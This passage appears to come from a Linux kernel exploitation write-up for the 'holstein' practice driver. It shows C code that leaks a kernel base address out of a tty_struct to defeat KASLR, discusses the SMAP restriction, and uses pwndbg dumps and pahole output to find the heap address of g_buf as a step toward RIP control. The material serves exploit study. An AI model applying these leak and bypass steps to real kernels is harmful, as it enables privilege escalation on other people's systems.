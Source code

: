 ~~~c
  fd = open("/dev/holstein", O_RDWR);
  ...
  // KASLRの回避
  read(fd, buf, 0x500);
  kbase = *(unsigned long*)&buf[0x418] - ofs_tty_ops;
  printf("[+] kbase = 0x%016lx\n", kbase);
~~~

# Controlling RIP

## Bypassing SMAP

Since SMAP is enabled, it is not possible to construct a fake `file_operations`
in userspace.

## Leaking the address of `g_buf`

`g_buf` is at: 0xffff888002fc4c00 (different location this time)

~~~
pwndbg> x/16xg 0xffff888002fc4c00 + 0x400
0xffff888002fc5000:     0x0000000100005401      0x0000000000000000
0xffff888002fc5010:     0xffff888002672e40      0xffffffff81c38880
0xffff888002fc5020:     0x0000000000000032      0x0000000000000000
0xffff888002fc5030:     0x0000000000000000      0xffff888002fc5038
0xffff888002fc5040:     0xffff888002fc5038      0xffff888002fc5048
0xffff888002fc5050:     0xffff888002fc5048      0xffff888002759c40
0xffff888002fc5060:     0x0000000000000000      0x0000000000000000
0xffff888002fc5070:     0xffff888002fc5070      0xffff888002fc5070
~~~

Pointers in `tty_struct`:

~~~
[cpey@nuc linux]$ pahole -E --hex -C tty_struct vmlinux
struct tty_struct {
...
                struct list_head {
                        struct list_head * next;                                         /*  0x38   0x8 */
                        /* --- cacheline 1 boundary (64 bytes) --- */
                        struct list_head * prev;                                         /*  0x40   0x8 */
                }read_wait; /*  0x38  0x10 */
...
~~~

`->next` pointer, points to the tty_struct (points to itself):

~~~
struct list_head *next: `g_buf` + 0x400 + 0x38 = 0xffff888002fc5038
g_buf: 0xffff888002fc5038 - 0x438 = 0xffff888002fc4c00
~~~
